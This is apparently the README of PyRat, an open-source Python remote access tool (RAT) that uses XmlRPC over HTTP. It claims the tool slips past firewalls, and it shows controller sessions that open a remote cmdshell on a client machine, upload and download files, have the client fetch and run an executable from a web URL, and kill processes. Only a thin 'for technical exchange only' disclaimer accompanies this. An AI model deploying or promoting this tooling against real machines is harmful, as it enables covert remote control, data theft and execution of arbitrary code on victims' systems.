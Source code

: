 # PyRat

PyRat，基于python XmlRPC完成的远控开源项目，包括客户端和服务端（也叫控制端，后统称服务端）。

> 申明：项目仅供技术交流，请勿用于商业及非法用途，如产生任何法律纠纷均与本人无关!

1. 由于XmlRPC基于http协议，所以PyRat能够无视防火墙，更加优雅得进行通信和控制。
2. python的跨平台特性，使得PyRat客户端可以支持Windows/Linux/Macos等不同平台，目前只工作于Windows平台，其他平台未作测试。
3. 服务端命令行控制和管理，逼格满满。
4. 目前客户端支持基本信息、上传、下载、cmdshell、运行软件、结束进程、更新、卸载等功能

# 依赖

1. colorama
2. pywin32

# TODO

1. 兼容测试Linux/Macos
2. 增加更多功能，比如文件操作，批量断点文件传输，远程桌面，截屏，账户操作等等
3. 服务端可视化
4. 欢迎PR

# 基本使用

客户端

```
> python .\pyratcli.py localhost 80
```

服务端

```
> python pyratsvr.py 80
--------------------Python RAT-----------------------
--------------------anhkgg---------------------------
--------------------Copyright (c) 2018---------------

软件仅供技术交流，请勿用于商业及非法用途，如产生法律纠纷与本人无关!

--------------------Task command---------------------
--|(l)ist (a)live (k)ill (s)elect (p)rint (c)mdshell (n)ew (d)ownload (r)unexec (u)pload (t)erminate (q)uit (h)elp|--

cmd >
```

客户端上线后，服务端会提示，并且将最新上线客户端设置未默认操作目标。

```
cmd >test-3333333 is online.
Auto set target test-3333333
```

`help`或者`h`可列出服务端支持的所有命令。

```
cmd >help
(l)ist:     list all clients
(a)live:    list alive clients
(k)ill:     delete client
(s)elect:   select target client
(p)rint:    show current client
(c)mdshell: create a cmdshell, type q to exit cmdshell
(n)ew:      update client version
(d)ownload: let client download a file
(r)unexec:  let client run a exe
(u)pload:   upload a file to client
(t)erminate:terminate process
(q)uit:     quit server
```

# 客户端管理

服务端使用sqlite保存客户端基础信息以及任务信息，通过命令可以对客户端进行管理。

```
//枚举所有客户端
cmd >l
test-3333333 offline 2018-03-20 22:46:59!
id     | client_id                  | version  | localip              | remoteip             | username             | osversion  | firsttime            | lasttime             | status
10     | test-3333333     | 0.1.0    | 192.168.149.1        | 114.245.47.12        | test            | Windows10.0.16299 | 2018-03-17 12:39:56  | 2018-03-20 22:46:59  | 0
cmd >
//枚举在线客户端
cmd >a
no alive client
//删除客户端数据库记录或者卸载客户端
cmd >k
target cid(or ALL):test-3333333
Do you want to uninstall client?(Y/N)
```

如果需要控制客户端时，需要通过`select`或者`s`选择要操作的客户目标。

```
cmd >c //想进入cmdshell，提示无目标
Please first set target client by (s)elect command.
cmd >s //设置目标
client_id:test-3333333
Set target client: test-3333333
//查看当前目标
cmd >p
test-3333333
```

# cmdshell

通过`cmdshell`或`c`进入cmdshell，除非主动输入`q`，否则一直在cmdshell操作目录。

cmdshell记录操作目录，比如cd c:\，下次操作会在该目录下进行，实现了类似管道连接的cmdshell。

另外若通过cmdshell启动进程，某些进程可能会阻塞消息返回，所以不推荐使用，而是使用`runexec`来代替。

```
cmd >c
RAT-CMD > dir
RAT-CMD > test-3333333 do cmdshell(195) dir True
 驱动器 D 中的卷是 gitrepo
 卷的序列号是 EB2F-5AC0

 D:\PyRat\client 的目录

2018/02/24  09:40    <DIR>          .
2018/02/24  09:40    <DIR>          ..
2018/03/20  22:46             4,919 pyratcli.py
2018/03/20  23:01                28 cmd.log
2018/03/17  12:39             1,322 pyratfc.py
2018/03/17  11:19             2,500 osver.py
2018/03/17  12:39             2,161 pyratfc.pyc
               5 个文件         10,930 字节
               2 个目录 647,836,565,504 可用字节

RAT-CMD > ver
RAT-CMD > test-3333333 do cmdshell(196) ver True

Microsoft Windows [版本 10.0.16299.309]

RAT-CMD > tasklist
RAT-CMD > test-3333333 do cmdshell(197) tasklist True

映像名称                       PID 会话名              会话#       内存使用
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          8 K
System                           4 Services                   0      3,564 K
smss.exe                       360 Services                   0        412 K
csrss.exe                      492 Services                   0      1,700 K
Calculator.exe               21656 RDP-Tcp#85                 1     56,772 K
RAT-CMD > tasklist |findstr Cal
RAT-CMD > test-3333333 do cmdshell(200) tasklist |findstr Cal True
Calculator.exe               21656 RDP-Tcp#85                 1     51,856 K
RAT-CMD > taskkill /IM Calculator.exe
RAT-CMD > test-3333333 do cmdshell(201) taskkill /IM Calculator.exe True
成功: 给进程 "Calculator.exe" 发送了终止信号，进程的 PID 为 21656。
RAT-CMD > taskkill /PID 21656
RAT-CMD > test-3333333 do cmdshell(202) taskkill /PID 21656 True
成功: 给进程发送了终止信号，进程的 PID 为 21656。
```

# 文件操作

支持文件上传和下载，其中下载支持下载网络文件和服务端本地文件，暂时只支持单文件上传和下载。

```
cmd >d
url(type N to download local file):N //选择下载本地文件
local file:db.db
dest path:db.db
cmd >test-3333333 do download(203) local db.db db.db True
download success

cmd >d
url(type N to download local file):https://dl.360safe.com/360/inst.exe //下载网络文件
dest path:inst.exe
cmd >test-3333333 do download(204) net https://dl.360safe.com/360/inst.exe inst.exe True
download success
```

# 运行软件

```
cmd >r
run target:inst.exe
runexec inst.exe
```

# 结束进程

```
cmd > t
Select type(name/pid):name
process name:notepad.exe
cmd >test-3333333 do terminate(212) name notepad.exe True
成功: 给进程 "notepad.exe" 发送了终止信号，进程的 PID 为 25416。
```

# 捐助

![img](wechatpay.png)